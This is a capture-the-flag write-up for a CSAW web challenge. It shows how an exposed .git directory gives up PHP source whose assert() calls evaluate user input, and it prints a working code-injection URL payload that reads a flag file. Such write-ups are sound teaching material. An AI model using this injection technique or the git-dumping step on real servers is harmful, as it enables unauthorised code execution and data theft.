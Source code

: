 ![description](images/description.png)

The challenge contains a link to a website:
![site index](images/website.png)

Going to the about tab reveals that the site uses PHP and git.
![about page](images/about.png)

The server has it's git directory public available:
![git directory](images/git.png)

I used https://github.com/evilpacket/DVCS-Pillage to download the git directory contents:

`./gitpillage.sh http web.chal.csaw.io:8000/`

This gives access to the source of index.php:
~~~~
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>

        [irrelevant html stuff]...

		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
			
		</div>
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
~~~~

After trying various ways to sneak '..' into the url, I remembered that assertions are generally not advised to be used in production code, so I looked up the php docs on assertions. It turns out that the string passed to the assert is evaluated as php code, meaning that we can inject code using the $page parameter.

After a lot of testing I came up with the solution:
~~~~
http://web.chal.csaw.io:8000?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~

When evaluated by index.php, the first assert becomes:
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~
This gets past the first assert, opens the flag.php file, and exits, printing its contents before the assertion fails.
![flag](images/flag.png)


